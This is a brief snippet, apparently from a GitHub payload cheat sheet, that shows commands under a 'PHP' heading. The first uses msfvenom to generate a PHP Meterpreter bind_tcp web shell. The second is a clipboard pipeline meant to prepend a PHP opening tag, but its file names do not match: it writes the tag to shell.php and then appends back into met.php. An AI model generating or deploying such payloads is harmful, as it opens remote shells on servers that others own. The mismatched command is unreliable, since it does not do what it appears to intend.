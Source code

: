 # PHP

`$ msfvenom -p php/meterpreter/bind_tcp lport=<PORT> -f raw > met.php`

`$ cat met.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> met.php`